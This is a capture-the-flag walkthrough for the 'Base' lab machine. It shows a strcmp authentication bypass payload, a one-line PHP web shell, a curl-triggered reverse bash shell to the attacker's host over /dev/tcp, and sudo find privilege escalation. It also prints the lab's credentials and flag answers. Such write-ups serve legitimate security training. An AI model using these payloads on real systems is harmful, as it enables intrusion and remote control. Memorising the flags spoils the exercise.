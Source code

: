 ### Base

**OS: Linux**<br>
**Difficulty: Very Easy**<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>

**Tags:** Vulnerability Assessment, Custom Applications, Source Code Analysis, Authentication, Apache, PHP, Reconnaissance, Web Site Structure Discovery, SUDO Exploitation, Authentication bypass, Clear Text Credentials, Arbitrary File Upload, Information Disclosure<br>
**Tools**: Nmap, Burp Suite, Gobuster, Netcat

---

#### Task 1
**Which two TCP ports are open on the remote host?**
> 22,80

![Nmap](nmap.png)

#### Task 2
**What is the relative path on the webserver for the login page?**
> /login/login.php

We visit the website and click the Login button. We are redirected to the `/login/login.php` page.

#### Task 3
**How many files are present in the '/login' directory?**
> 3

We go to `/login` and see 3 files: `login.php`, `config.php`, and `login.php.swp`.

![Files in /login Directory](burp.png)

#### Task 4
**What is the file extension of a swap file?**
> .swp

#### Task 5
**Which PHP function is being used in the backend code to compare the user submitted username and password to the valid username and password**
> strcmp()

We use the `cat` command look at the contents of the `login.php.swp` file:

```php
// login.php.swp
if (strcmp($password, $_POST['password']) == 0) 
if (strcmp($username, $_POST['username']) == 0)
```

#### Task 6
*In which directory are the uploaded files stored?*
> /_uploaded

We use Burp Suite to log into the website. We try to login to the website and intercept the HTTP POST Request. We add `[]` to the end of the `username` and `password` variable names to change them from a String into an Array.

```
username[]=user&password[]=pass
```

The `strcmp()` function was expecting the username and password to be a String instead of array, so it returns `null`. Since `null` evaluates to `0`, we successfully login to the website.

We are met with a page to upload files. We upload a file called `test.txt` and then use Gobuster to find the directories with `.txt` files. We find that the uploaded files are in the `/_uploaded` directory:

![Gobuster](gobuster.png)

#### Task 7
*Which user exists on the remote host with a home directory?*
> john

We upload a PHP shell to the website:

```php
// shell.php
<?php echo shell_exec($_GET['cmd']); ?>
```

Next we start a Netcat listener on port `12345` of our  computer. Then we use curl to start a reverse bash shell:

```bash
curl http://10.129.27.143/_uploaded/shell.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.75%2F12345%200%3E%261%27
```

#### Task 8
*What is the password for the user present on the system?*
> thisisagoodpassword

The credentials are hardcoded into the `config.php` file:

```
$username = "admin";
$password = "thisisagoodpassword";
```

#### Task 9
*What is the full path to the command that the user john can run as user root on the remote host?*
> /usr/bin/find

We login as john:

[Shell](shell.png)


#### Task 9
*What action can the find command use to execute commands?*
> exec


---

#### User Flag
> f54846c258f3b4612f78a819573d158e

#### Root Flag
> 51709519ea18ab37dd6fc58096bea949

Once we login as john, we can use the `find` command with `exec` to get a bash shell:

[Root](root.png)


---